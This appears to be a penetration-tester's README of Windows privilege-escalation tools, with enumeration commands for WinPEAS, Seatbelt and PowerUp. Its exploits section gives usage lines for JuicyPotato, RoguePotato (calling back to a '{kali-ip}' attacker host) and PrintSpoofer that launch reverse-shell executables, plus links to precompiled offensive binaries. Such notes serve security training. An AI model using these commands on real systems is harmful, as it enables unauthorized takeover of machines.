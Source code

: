 # Windows PrivEsc Tools
Helpful scripts for Windows PrivEsc 
# Enumeration Tools
## WinPEAS
Tool that looks for privilege escalation misconfigurations and highlights them for the user in the results. Also possible to run certain checks individually. Avaiable as an exe and a bat.
- [GitHub Repo](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- Before running, add a registry key: `reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1` (enables colors)
    - Might still be able to see colors if run through a reverse shell
- Reopen command prompt
- Run all checks while avoiding time-consuming searches: `.\winPEASany.exe quiet cmd fast`
- Run specific check category: `.\winPEASany.exe quiet cmd systeminfo`

## Seatbelt
Enumeration tool that outputs system info related to PrivEsc, but doesn't recommend any specific escalation. Output requires further investigation. 
- [GitHub Repo](https://github.com/GhostPack/Seatbelt)
- [Precompiled Binary](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Seatbelt.exe)
- Possible to run specific checks, all checks, or selected combinations checks.
- Print help message (list available checks): `.\SeatBelt.exe`
- Run all enumeration checks: `.\SeatBelt.exe all`

## PowerUp & SharpUp
Useful to find a specific subset of privilege escalation misconfigurations. Should not be used as a standalone tool.
### PowerUp 
- written in powershell
- [GitHub Raw](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)
- to run from a cmd prompt 
    - open powershell with: `powershell -exec bypass`
    - dot source the script: `. .\PowerUp.ps1`
    - Invoke the AllChecks function: `Invoke-AllChecks` 
### SharpUp 
- C# version of PowerUp, useful when powershell isn't available. 
- [GitHub Repo](https://github.com/GhostPack/SharpUp)
- [Precompiled Binary](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpUp.exe) 
- `.\Sharpup.exe`

## Access Check
Tool to check user access control rights on files, directories, services, and registry keys. However, it prompts the user to accept a EULA (usually only possible through RDP). If using a command line, must use an older version which still has the /accepteula CL flag.
- [Microsoft Docs](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

# Exploits
## Shortcut Startup Script
VBS script to create a shortcut file that links to a reverse shell
- [GitHub link](https://github.com/dopamin3rgic/oscp-scripts/blob/main/privEsc/scripts/windows/shortcut-startup-program.vbs)

## Juicy Potato
Token impersonation tool for Service Accounts
- [GitHub Repo](https://github.com/ohpe/juicy-potato)
- need a valid [CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID) which changes based off your Windows version
- Usage example: `JuicyPotato.exe -l 1337 -p C:\path\to\reverse\shell.exe -t * -c {03ca98d6-ff5d49b8-abc6-03dd84127020}`

## Rogue Potato
Latest version of Potato exploit that works on newer Windows systems
- [GitHub Repo](https://github.com/antonioCoco/RoguePotato)
- [Blog Post](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)
- Usage Example: `C:\PrivEsc\RoguePotato.exe -r {kali-ip} –l {socat port} -e "C:\path\to\reverse\shell.exe`

## PrintSpoofer
Exploit that targets the Print Spooler service
- [GitHub Repo](https://github.com/itm4n/PrintSpoofer)
- [Blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
- requires Visual C++ redistributable is installed
- Usage example: `C:\PrivEsc\PrintSpoofer.exe –i -c "C:\path\to\shell\reverse.exe"`